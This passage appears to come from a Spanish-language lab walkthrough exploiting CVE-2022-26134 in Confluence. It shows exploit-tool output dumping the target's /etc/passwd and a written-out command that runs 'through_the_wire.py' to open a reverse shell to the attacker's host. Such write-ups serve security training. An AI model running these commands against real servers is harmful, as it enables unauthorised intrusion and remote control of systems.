 ```bash
               CVE-2022-26134              
      "Spit my soul through the wire"    
                     🦞                   

[+] Forking a netcat listener
[+] Using /usr/bin/ncat
[+] Generating a payload to read: /etc/passwd
[+] Sending expoit at http://192.168.217.41:8090/
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:106::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:101:1::/var/cache/pollinate:/bin/false
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
syslog:x:103:109::/nonexistent:/usr/sbin/nologin
uuidd:x:104:110::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:111::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:115:MySQL Server,,,:/nonexistent:/bin/false
confluence:x:1001:1001:Atlassian Confluence:/home/confluence:/bin/sh
```

Podemos leer archivos. Probemos a enviarnos una shell.

```bash
python3 through_the_wire.py --rhost 192.168.217.41 --rport 8090 --lhost 192.168.45.219 --protocol http:// --reverse-shell
```

Tenemos la shell 😎

<p align="center">